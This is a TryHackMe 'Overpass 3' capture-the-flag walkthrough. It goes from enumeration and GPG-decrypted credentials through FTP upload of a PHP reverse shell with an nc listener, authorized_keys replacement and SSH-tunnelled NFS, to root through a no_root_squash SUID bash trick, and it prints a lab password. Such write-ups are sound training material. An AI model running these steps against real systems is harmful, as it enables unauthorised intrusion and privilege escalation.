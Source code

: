 ```yaml
---
layout: default
title : Overpass 3 - Web Hosting - THM
---
```


![Screenshot_20220324_031714](https://user-images.githubusercontent.com/24994796/160209915-2f41711f-71af-4a91-9eae-60237a89aeef.png)

# Less chatting more hacking 🤤
Let's jump right into it 

Here we are working with couple of broke programmers who built a web hosting ......

Upon firing up the machine we get an ip machine

First thing for every good security operative in enumeration
so we run an nmap scan to know which ports/services are up and running

![Screenshot_20220326_003154](https://user-images.githubusercontent.com/24994796/160210613-a77cc466-9717-4ee1-bb5e-11ba76dfcfa2.png)
After the scan we notice 3 ports opened and a bunch of vulnerebilities 
- Port 21,22 and 80 
- FTP,SSH and HTTP respecfully
- also notice on line 27,28 we already ran an http-enum and found two directories 
- lets keep those in mind for next time
Let's head on to our browser, load the website 
![Screenshot_20220326_003036](https://user-images.githubusercontent.com/24994796/160211351-b5006e30-7eb5-4b49-a362-f174c3c8d1ac.png)
We see the index page doesn't really give us much but we can clearly see staffs and their roles
Nothing major there except from an about page and Downloads
So heading on to the /backups directory we got from our scan we notice see a backup zip file 
We download it, extract it and were greeted with two files a gpg and a private pgp key file
![Screenshot_20220326_001459](https://user-images.githubusercontent.com/24994796/160211822-12de9c93-f934-4b7e-9486-c78fed62d191.png)
I guess we'll be learning a bit about pgp and gpg xD 
# Proceed to both this links if you want to learn about how to import keys and change a pgp passphrase

https://makandracards.com/makandra-orga/37763-gpg-extract-private-key-and-import-on-different-machine
https://blog.chapagain.com.np/gpg-how-to-change-edit-private-key-passphrase/


First change direcetory to one the contains your backup extracted files 
make sure you have gpg installed on yyour machine 
then we get into it
In your terminal type this 
- sudo apt-get install gpg 
- gpg --list-keys 
notice nothing is returned
- gpg --list-secret-keys 
Now let's proceed to importing the keys 
- gpg --import private.key
- run the gpg --list-secret-keys 
Notice we finally get some keys

![Screenshot_20220326_004741](https://user-images.githubusercontent.com/24994796/160212412-a94c2a7a-c8ed-46e9-9847-06a1c7356563.png)

Now changing its passphase
- gpg --edit-key your-key-ID
Your Key will be in hexadecimals 
- gpg> passwd
You'll be asked to input your new password twice 
Let's just type overpass
- gpg> save
Save it

# Decrypting the gpg file
In order to decrypt an encrypted file on Linux, you have to use the “gpg” command with the “-d” option for “decrypt” and specify the “. gpg” file that you want to decrypt.
Again, you will be probably be prompted with a window (or directly in the terminal) for the passphrase.
- gpg -d CustomerDetails.xlsx.gpg 
- input your passphrase
Now head back to the foleder that contains the backup files, you'll notice a new file, open it

![Screenshot_20220326_011324](https://user-images.githubusercontent.com/24994796/160213471-14e62faf-ce34-4e36-8212-d6af23650147.png)

![Screenshot_20220326_011913](https://user-images.githubusercontent.com/24994796/160213859-44e83b4d-70ce-4198-983d-2a7b79a8ddd0.png)


We have login credentials where to use it ?
Remember in our scan we had FTP&SSH being open 
Upon trying the SSH with all login details we didn't have any successfull ssh login
Let's try the FTP
make sure you have ftp installed on your pc 
- sudo apt-get install ftp
- ftp "machine IP"
- it prompts us to give a user 
- and a password
Just have fun trying all the users and passwords 

After logging in, we run ls to list directories
we see the backups directory and some other things 
It seems that's web directory
lets upload our web rev shell (/usr/share/webshells/php/php-reverse-shell.php) or any php of your choice
change the ip and port to port of our preferance and IP to our attacker machine's

![Screenshot_20220324_152536](https://user-images.githubusercontent.com/24994796/160214017-3d0abbd9-e0c1-48de-9286-2286a46c8ead.png)

Set up your listner 
- rlwrap nc -lvnp PORT
Head to the website and chane the directory to IP/webshell name 

![Screenshot_20220324_153103](https://user-images.githubusercontent.com/24994796/160214407-451de196-ff68-48cd-b2e9-161638230135.png)

We should caught a shell 


So yes from ![Screenshot_20220324_152557(2)](https://user-images.githubusercontent.com/24994796/160214836-b0e9a821-ee1b-473b-a718-1b56a9230376.png)

That's our initial shell, 
make the shell a stable one (* that'll be your little task, use bash to stabilize the shell, but rlwrap is a pretty stable shell)
from THM hint the webflag is in the apache user path
- cat /etc/passwd
![Screenshot_20220324_220936](https://user-images.githubusercontent.com/24994796/160214960-fb08e394-53c0-4c01-bb7e-9a99f9b0be17.png)
- cd /usr/share/httpd (apache path)
- ls
- cat your web flag

we have a user paradox who we have his password so let's head to his path
- su paradox
- ShibesAreGreat123 (password)

so let's try getting the user flag now, Paradox lacks the right to

run linpeas.sh or you can go through a series of manual exploitation

pay attention to NFS 
we check /etc/exports 
and see that the user james has a share to his path and it has the root_no_squat option
on our pc try mounting this share 
- showmount -e "MACHINE IP"
- we noticed some sort of Firewall is blocking our share 
- so let's try ssh port forwarding nfs share trick

but before we do that let's get a user we can successfully ssh to

we noticed we couldn't ssh to paradox even tho we had his password 
lets try replacing his authorized_keys with ours 
- first get your ssh key open another terminal tab
- cd ~/.ssh 
- ls 
- cat id_rsa.pub
now we have that let's go back to our shell tab and change paradox authourized keys
![Screenshot_20220324_152701(2)](https://user-images.githubusercontent.com/24994796/160216007-e0214d80-1374-4124-a0db-38c6696efd65.png)

- after that head back to your tab 
- time for the port forwarding trick, the link below explains it quite well, you can head there later 
https://gist.github.com/proudlygeek/5721498 
We run the following
Setup ssh tunnel
- ssh -fNv -L 3049:localhost:2049 paradox@MACHINE-IP 
![Screenshot_20220324_152739](https://user-images.githubusercontent.com/24994796/160216153-57f72cd7-65f9-4a85-9447-21419fe73dbe.png)
Mount the share
- mount -t nfs -o port=3049 localhost:/ /tmp/nfs
![Screenshot_20220324_152808](https://user-images.githubusercontent.com/24994796/160216187-043eef85-12fd-4457-bef4-2f19c26820fb.png)

so yh cd to the folder me mounted it to /tmp/nfs
- ls -la 
lists all files and folders
notice there's a .ssh folder, cd to it and cat the id_rsa.pub file 
so just ssh with it since we don't know the login
- ssh -i id_rsa.pub james@MACHINE-IP
![Screenshot_20220324_152851](https://user-images.githubusercontent.com/24994796/160216662-34572d73-5dae-457d-882a-8585bd8504ec.png)

![Screenshot_20220324_152959](https://user-images.githubusercontent.com/24994796/160216688-8e90ffe7-a381-48f0-802d-28b6a96e6bcb.png)
WE'RE IN 😎
cat out the user flag 

Now time for the privilege escalation path
pay good attention to this, things get tricky here
actually we use hacktricks trick xD
https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe

Head back to our /tmp/nfs folder 
- cd /tmp/nfs
- cp /bin/bash . (note my personal experience was tht after a minute the Terminal was a hung there so i closed it and opend another and went back the /tmp/nfs folder again, listing files a bash file was there)
- chmod +s bash

Now head back to the james's ssh and the shared folder path

./bash -p 

gives drops us a root shell
![Screenshot_20220324_153023](https://user-images.githubusercontent.com/24994796/160217074-d1353f2d-cc78-473b-a756-6d065749cc9b.png)

and BOOM root access 🥸 🤯

so the last task of finding root flag is up to you
nah just kidding 
- cat /root/root.flag
and we should get our root flag

That's it for Overpass 3

Hit me up on Twitter (https://twitter.com/abdulmalik_ttg) if you run into any issues 
Greetings from [SonOfABot]



<br> <br>
[Back To Home](../../index.md)
<br>









